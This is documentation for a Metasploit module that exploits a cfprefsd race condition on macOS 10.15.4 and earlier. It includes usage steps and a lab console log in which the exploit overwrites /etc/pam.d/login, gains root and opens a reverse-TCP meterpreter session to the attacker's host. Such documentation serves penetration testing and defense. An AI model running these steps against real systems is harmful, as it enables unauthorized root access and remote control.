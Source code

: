 ## Vulnerable Application

This module exploits an arbitrary file write in cfprefsd on macOS <= 10.15.4 in
order to run a payload as root. The CFPreferencesSetAppValue function, which is
reachable from most unsandboxed processes, can be exploited with a race condition
in order to overwrite an arbitrary file as root. By overwriting /etc/pam.d/login
a user can then login as root with the `login root` command without a password.


## Verification Steps

1. Get a session on a vulnerable system
2. `use exploit/osx/local/cfprefsd_race_condition`
3. `set lhost <IP>`
4. `set lport <PORT>`
5. `set session <session_id>`
6. `run`

## Scenarios

### macOS Catalina 10.15.4

```
msf6 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                 Information                                                                       Connection
  --  ----  ----                 -----------                                                                       ----------
  1         meterpreter x64/osx  user @ Users-Macbook-Pro.local (uid=501, gid=20, euid=501, egid=20) @ Users-M...  192.168.56.1:4444 -> 192.168.56.4:49451 (192.168.56.4)

msf6 exploit(multi/handler) > use exploit/osx/local/cfprefsd_race_condition
[*] Using configured payload osx/x64/meterpreter/reverse_tcp
msf6 exploit(osx/local/cfprefsd_race_condition) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf6 exploit(osx/local/cfprefsd_race_condition) > set LPORT 5555
LPORT => 5555
msf6 exploit(osx/local/cfprefsd_race_condition) > set SESSION 1
SESSION => 1
msf6 exploit(osx/local/cfprefsd_race_condition) > exploit

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 192.168.56.1:5555
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Writing '/tmp/.Ug0wUz4HX6' (17204 bytes) ...
[*] Writing '/tmp/.qZy9vVNU' (14748 bytes) ...
[*] Executing exploit '/tmp/.qZy9vVNU /etc/pam.d/login'
[*] Exploit result:
Trying 10000 calls...
access: Permission denied
pwned! /etc/pam.d/login is now writable!
[*] Running cmd:
echo '/tmp/.Ug0wUz4HX6 & disown' | login root
[*] Transmitting first stager...(210 bytes)
[*] Command output:
Last login: Tue Aug 18 09:56:20 on tty??
[*] Transmitting second stager...(8192 bytes)
[*] Sending stage (799916 bytes) to 192.168.56.4
[*] Meterpreter session 2 opened (192.168.56.1:5555 -> 192.168.56.4:49452) at 2020-09-04 17:36:45 +0800

meterpreter >
[+] /etc/pam.d/login was restored

meterpreter > getuid
Server username: root @ Users-Macbook-Pro.local (uid=0, gid=0, euid=0, egid=0)

```

